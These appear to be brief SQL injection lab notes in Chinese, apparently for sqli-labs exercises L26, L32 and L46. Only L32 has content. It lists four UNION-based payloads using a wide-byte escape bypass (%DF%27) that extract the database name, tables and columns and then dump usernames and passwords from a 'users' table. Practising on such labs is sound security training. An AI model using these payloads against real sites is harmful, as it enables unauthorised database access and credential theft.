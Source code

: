

## 





# L26





# L32



## 获取数据库名



```sql
/?id=-1%DF%27 union select 1,2,database() --+
```



## 获取表



```sql
/?id=-1%DF%27 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```



## 获取列名



```sql
/?id=-1%DF%27 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+
```



## 获取用户名与密码



```sql
/?id=-1%DF%27 union select 1,2,group_concat(concat(username,password)) from users --+
```





# L46
